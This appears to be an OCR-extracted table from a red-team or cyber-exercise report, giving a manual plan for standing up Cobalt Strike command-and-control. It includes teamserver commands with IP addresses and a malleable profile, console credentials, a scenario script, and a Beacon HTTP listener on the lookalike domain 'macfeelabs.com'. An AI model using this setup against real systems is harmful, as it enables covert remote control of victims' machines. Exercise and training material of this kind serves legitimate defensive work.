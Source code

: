 Table 11: Manual Execution Plan 

MANUAL EXECUTION PLAN 
Setup Team 
Server 
RCS03 � v1: cd ~/Desktop/cobaltstrike sudo ./teamserver 210.210.210.5 password ~/Desktop/jquery-c2.3.11.profile 
 
RCS06 � v2: cd ~/Desktop/cobaltstrike 
sudo ./teamserver 202.84.73.5 password ~/Desktop/jquery-c2.3.11.profile 
 	 

Connect to Aggressor 
console in a new terminal 
cd ~/Desktop/cobaltstrike ./cobaltstrike & 

Login:  
Host:  
127.0.0.1 


Port:  
50050 


User: 
opfor 
 


Password: 
password 
 

Load 
Scenario Automation: 
� Cobalt Strike>Script Manager 
� Load> ~Desktop/mds1.cna 
 

Setup 
Listener 
� Cobalt Strike > Listeners 
� Add 
� Name: HTTP_MDS1 
� Payload: Beacon HTTP 
� HTTP Hosts: macfeelabs.com 
� HTTP Host (Stager): macfeelabs.com 
� Profile: default 
� HTTP Port(C2): 80 
� Remaining: Blank 
 
 

Create 
Payloads 
IMPORTANT: Payloads should all be created in advance as there is likely not enough time during execution. 

Cobalt 
Strike 
User 
Payload 
 
